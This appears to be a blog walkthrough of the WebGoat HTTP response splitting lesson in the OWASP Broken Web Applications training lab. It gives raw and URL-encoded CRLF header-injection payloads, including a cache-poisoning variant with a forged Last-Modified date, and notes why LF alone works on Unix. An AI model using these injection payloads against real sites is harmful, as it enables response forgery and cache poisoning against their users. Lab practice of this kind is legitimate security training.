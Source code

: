 ```yaml
---
title: "OWASP Broken Web Applications - WebGoat Walkthrough (Part 1)"
date: 2020-01-21
categories:
  - OWASP-BWA
tags:
  - Beginner
  - Web-Pentesting
---
```


After watching @NahamSec (Ben Sadeghipour) twitch interview with @Jhaddix (Jason Haddix), both legendary people in the bugbounty scene today, where Jason Haddix shared about some 'crash course' he make his mentees go through to learn about web pentesting: [OWASP Broken Web Application](https://owasp.org/www-project-broken-web-applications/). 

I immediately embarked on this training myself, its free and anyone can download it. Use VMWare/Virtualbox with it and recommended to configure it to host-only network settings (its vulnerable webapps and shouldn't be exposed to public unless you like to invite hackers in!)

I attempt to do a write up of my 


## 1. HTTP SPLITTING

(part 1)
Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 10
<html>Test</html>
```

turns to
```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the [CR][LF] sequence, while unix only uses [LF].


| Environment  | CRLF Used  | encoded |
| ------------ |----------- | ------- |
| Windows      | CRLF 	    | %0d%0a  |
| Unix         | LF 	    | %0a     |

https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types

CRLF / HTTP header injection
https://owasp.org/www-community/attacks/HTTP_Response_Splitting
https://portswigger.net/kb/issues/00200200_http-response-header-injection

log poisoning using CRLF
https://www.netsparker.com/blog/web-security/crlf-http-header/


(part 2)
Note: inject the 'Last-Modified' date to a future date which forces the browser to send an If-Modified-Since request header to future requests
*encode uri for below*
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 1 Jan 2030 00:00:00 GMT
Content-Length: 4
<html>Test</html>

```